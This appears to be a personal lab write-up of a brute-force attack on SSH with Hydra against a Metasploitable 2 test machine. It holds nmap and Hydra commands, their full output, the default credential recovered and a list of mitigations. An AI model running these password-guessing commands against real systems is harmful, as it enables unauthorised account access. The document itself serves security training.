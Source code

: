 # Brute Force SSH Login Using Hydra

## Objective

Simulate a brute-force attack against an SSH service using Hydra to test password strength and understand the risks of weak or default credentials.

## Target Information

- **Target Machine:** Metasploitable 2
- **IP Address:** 192.168.56.102
- **Service:** SSH (Port 22)
- **Known User:** `msfadmin`

## Tools Used

- Kali Linux
- Hydra (pre-installed in Kali)
- RockYou password list: `/usr/share/wordlists/rockyou.txt`
- Nmap (for recon)
- Custom wordlist: `quicklist.txt`

## Lab 
### STEP 1

#### Ensure Metasploitable 2 is powered on and reachable from Kali. Confirm SSH is enabled on the target:

```bash
nmap -sS -sV -O 192.168.56.102
nmap -p 22 192.168.56.102
```
![image](https://github.com/user-attachments/assets/5f925245-1d15-41b4-b92c-2439563e5ed1)
Confirm that SSH is running and reachable (I did a little extra)

### STEP 2 

Enable SSH client compatibility in Kali (After SSH atttept failed)

Failed SSH attempt
```bash
──(kali㉿kali)-[/usr/share/wordlists]
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt.gz  ssh://192.168.56.102

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:11:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[ERROR] could not connect to ssh://192.168.56.102:22 - kex error : no match for method server host key algo: server [ssh-rsa,ssh-dss], client [ssh-ed25519,ecdsa-sha2-nistp521,ecdsa-sha2-nistp384,ecdsa-sha2-nistp256,sk-ssh-ed25519@openssh.com,sk-ecdsa-sha2-nistp256@openssh.com,rsa-sha2-512,rsa-sha2-256]
``` 
Enable SSH Client
```bash
sudo kali-tweaks
```
Go to Hardening
![Screenshot 2025-07-01 134802](https://github.com/user-attachments/assets/63042173-8d77-438f-aa07-a7d134811899)


Toggle SSH Client
![Screenshot 2025-07-01 134826](https://github.com/user-attachments/assets/6494ba13-6efb-436c-8727-83577d01b8e5)
![Screenshot 2025-07-01 134815](https://github.com/user-attachments/assets/32e5b084-6d0a-4c21-b3d1-084391714d56)

This allows Hydra to connect to legacy SSH servers like Metasploitable 2

### STEP 3
Attempting RockYou (Too large)

```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.gz ssh://192.168.56.102
```
Failed (Cancelled) due to large size

```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt.gz  ssh://192.168.56.102

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:34:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[STATUS] 216.00 tries/min, 216 tries in 00:01h, 14344191 to do in 1106:49h, 8 active
 [STATUS] 208.00 tries/min, 624 tries in 00:03h, 14343783 to do in 1149:21h, 8 active
```
Realized I needed to uncompress file

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

### STEP 4

Create a faster wordlist

```bash
echo -e "msfadmin\nadmin\npassword\n123456\nletmein\nkali" > quicklist.txt
```

### STEP 5
Run Hydra with optimization flags (Run Hydra with decompressed RockYou)

```bash
hydra -l msfadmin -P quicklist.txt ssh://192.168.56.102 -t 4 -V -f
```
Result

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l msfadmin -P quicklist.txt ssh://192.168.56.102 -t 4 -V -f

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:39:05
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 6 login tries (l:1/p:6), ~2 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "msfadmin" - 1 of 6 [child 0] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "admin" - 2 of 6 [child 1] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "password" - 3 of 6 [child 2] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "123456" - 4 of 6 [child 3] (0/0)
[22][ssh] host: 192.168.56.102   login: msfadmin   password: msfadmin
[STATUS] attack finished for 192.168.56.102 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-01 13:39:15
```
Success!

Run with uncompressed RockYou

```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102 -t 6   
```

Result (still too long)
```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102 -t 6       

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 14:04:24
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
-I
[DATA] max 6 tasks per 1 server, overall 6 tasks, 14344399 login tries (l:1/p:14344399), ~2390734 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[STATUS] 162.00 tries/min, 162 tries in 00:01h, 14344237 to do in 1475:45h, 6 active
```

## Analysis
- Brute-forcing with Hydra is effective when credentials are weak
- Custom wordlists reduce time, increase efficiency in lab settings
- rockyou.txt is too large for quick testing and isn’t practical here
- The target accepted a known default credential (msfadmin:msfadmin)

## Mititgation Recommedations
- Enforce strong passwords
- Disable default accounts or rename them
- Limit SSH access (IP whitelisting, firewall)
- Use tools like Fail2Ban to detect and block repeated login attempts
- Consider disabling password-based login in favor of key-based auth
